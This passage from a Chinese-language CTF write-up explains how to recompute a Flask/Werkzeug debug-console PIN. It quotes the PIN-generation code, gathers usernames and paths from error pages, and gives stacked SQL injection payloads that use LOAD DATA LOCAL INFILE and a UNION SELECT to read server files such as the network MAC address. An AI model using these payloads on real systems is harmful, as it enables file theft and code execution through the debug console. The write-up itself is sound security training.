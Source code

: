 ``` python
    return rv, cookie_name
```

可以明白rv就是最后生成的PIN码，生成PIN需要几个关键变量，

``` python
......
  	# This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.sha1()
......
```

即`username`,`modname`,`getattr(app, "__name__", type(app).__name__)`,`getattr(mod, "__file__", None)`,`str(uuid.getnode())`和`get_machine_id()`

### username

根据报错可知，启动用户为`ctf`，即`username`为`ctf`

### modname

modname也是根据报错得知为`flask.app`，默认也是

### getattr(app, "__name__", type(app).__name__)

`getattr(app, "__name__", type(app).__name__)`默认为Flask

### getattr(mod, "__file__", None)

`getattr(mod, "__file__", None)`在报错界面可知为`/usr/local/lib/python3.8/site-packages/flask/app.py`

### str(uuid.getnode())

靶机此值每次重置都会变化

`str(uuid.getnode())`即为靶机网卡MAC地址的十进制，利用堆叠注入，读入文件`-1';create table {tablename}(cmd text);load data local infile '{file}' into table {tablename} fields terminated by '\\n';%23`(此处用load_file好像不可以)

然后用联合查询`0' union select 1,2,3,4,(select group_concat(concat_ws(0x7e,cmd)) from {tablename})%23`从主页上读取信息

读取了`/sys/class/net/eth0/address`，用python `str(int(MAC.decode().replace(":", ""), 16))`处理为十进制
